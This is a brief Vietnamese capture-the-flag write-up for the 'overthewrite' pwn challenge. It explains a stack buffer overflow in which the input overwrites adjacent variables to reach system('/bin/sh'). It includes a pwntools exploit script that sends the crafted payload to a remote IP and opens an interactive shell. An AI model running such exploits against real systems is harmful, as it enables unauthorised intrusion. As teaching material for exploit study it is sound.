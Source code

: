 **1. Find bug**
- ![image](https://user-images.githubusercontent.com/113702087/212821567-1c1f19e6-e2ef-42b9-92f7-8366065431b8.png)
- Dễ thấy bug là overflow khi buf có 32 byte (int_64 * 4) nhưng lại được nhập 0x50 byte
- Dựa theo chú thích của ida ta thấy buf cách s1 0x20 byte, s1 cách v7 0x18 byte, v7 cách v8 8 byte và v9 cách v8 0xc byte
- Ta sẽ overflow buf để control cách biến s1, v7, v8, v9 để thực thi system("/bin/sh")

**2. Exploit**
```
from pwn import *

exe = context.binary = ELF('./overthewrite', checksec=False)

# r = exe.process()
# gdb.attach(r)

r = remote('159.89.197.210', 9992)

payload = b'a'*(32) + b'Welcome to KCSC'.ljust(16, b'\x00') + p64(0x215241104735F10F) + p64(0xDEADBEEFCAFEBABE) + b'aaaa' + p64(322376503)

r.sendlineafter(b'Key: ', payload)

r.interactive()
```
- ![image](https://user-images.githubusercontent.com/113702087/212824153-53f31381-bd5b-4945-8945-5ae04b266ea8.png)
